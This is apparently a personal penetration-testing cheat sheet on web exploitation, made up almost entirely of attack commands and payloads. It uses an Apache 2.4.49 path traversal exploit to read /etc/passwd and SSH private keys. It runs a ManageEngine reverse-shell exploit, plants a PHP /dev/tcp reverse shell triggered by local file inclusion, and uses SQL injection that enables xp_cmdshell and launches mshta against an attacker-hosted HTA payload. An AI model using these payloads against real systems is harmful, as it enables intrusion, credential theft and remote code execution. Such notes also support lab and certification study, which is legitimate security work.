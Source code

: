 # 01 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: direct access](#Example-direct-accesse)
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 48793](#ID-48793-CVE-2020-14008)
    - [Local File Inclusion](#Local-File-Inclusion)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT, reverse shell](#MSSQL-Error-UNION-SELECT-reverse-shell)

## Exploit DB
Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: direct access
ID 50383: Apache path traversal
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

## Example: reverse shell
### ID 48793 CVE-2020-14008
ManageEngine reverse shell (auth):
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## require nc listener: nc -nvlp 443
```

### Local File Inclusion
Initial access was gained via SSH; an internal web app was running as root.
Unsecure LFI in application script.

Create a reverse shell command file:
``` php
<?php system('bash -c "bash -i >& /dev/tcp/$KAI/443 0>&1"'); ?>         ## require nc listener: nc -nvlp 443
```
Get the vulnerable script from interna (or external if possible):
``` bash
curl http://127.0.0.1:8000/backend/?view=../../../../../../../../home/user/shell.php
```

## Example: sqli

### MSSQL Error, UNION SELECT, reverse shell
Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```
